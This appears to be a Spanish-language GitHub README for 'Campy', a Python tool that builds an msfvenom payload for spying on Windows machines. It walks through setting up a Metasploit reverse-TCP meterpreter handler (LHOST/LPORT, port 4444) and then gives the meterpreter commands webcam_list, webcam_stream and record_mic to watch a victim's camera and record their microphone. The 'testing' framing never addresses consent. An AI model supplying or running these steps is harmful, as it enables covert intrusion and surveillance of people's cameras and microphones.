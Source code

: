 ![Campy-banner](https://user-images.githubusercontent.com/107135484/191642751-89b564d2-0905-461c-8116-feda740b7cbf.png)
<p align="center">
   <img src="https://img.shields.io/badge/STATUS-EN%20DESAROLLO-green">


## Comenzando 🚀

_Campy es un script basico, con el cual podras optimizar la creacion de un paquete venom para hacer pruebas  con metasploit y poder acceder a la camara y microfono de un dispositivo Windows._

Mira **Deployment** para conocer como desplegar el proyecto.


### Pre-requisitos 📋

_1. Actualizar paquetes_
```
sudo apt update && sudo apt upgrade
```

_2. Verifica que tengas pip instalado:_

```
pip --version
```
_Ejecuta, en caso de no tenerlo instalado:_
```
sudo apt-get install python-pip
```
_3. Verifica que tengas git instalado:_

```
git --version
```
_Ejecuta, en caso de no tenerlo instalado:_
```
sudo apt-get install git
```



### Instalación 🔧

_Ahora si clonas el repositorio o lo descargas. Como prefieras_

```
git clone https://github.com/TDI-CO/Campy.git
```
```
cd Campy
```
_Instalamos los requerimientos_

```
sudo pip install pyautogui
```
```
sudo python3 campy.py
```

## Ejecutando las pruebas ⚙️

_Campy utilizara socket para tener tu ip y agregarla al codigo de venom, luego te solicitaara un puerto el cual por defecto puedes poner 4444 y por ultimo un nombre para el paquete_

![Sin-título-1](https://user-images.githubusercontent.com/107135484/191758074-5ffde2c3-1dfe-4d12-9c47-144e20d5065f.png)

_Para poder monitorear:_

```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverser_tcp
```
_Es muy importante que coloques la misma ip y puertos_
```
set LHOST "TU DIRECCION IP"
```
```
set LPORT "EL PUERTO QUE ELEGISTE"
```
```
show options
```
```
exploit
```
## Monitorear camara 📸

_Primero enlistamos las camaras_
```
webcam_list
```
```
webcam_stream "ELIGE UN NUMERO DE LA LISTA"
```

## Monitorear mricofono 🎤

```
record_mic -d "segundos"
```

## Construido con 🛠️

_Este script fue desarrollado con python_


* **Siguenos en instagram** - *Desarrolladores* - [The Dark Island](https://www.instagram.com/tdi_colombia/)

## Esperamos te sirva 🎁

* Comenta a otros sobre este proyecto 📢
* Invita una cerveza 🍺 o un café ☕ a alguien del equipo.
* Dona a nequi: `323 370 1359`



---
⌨️ con ❤️ por [TDI](https://www.instagram.com/tdi_colombia/) 😊
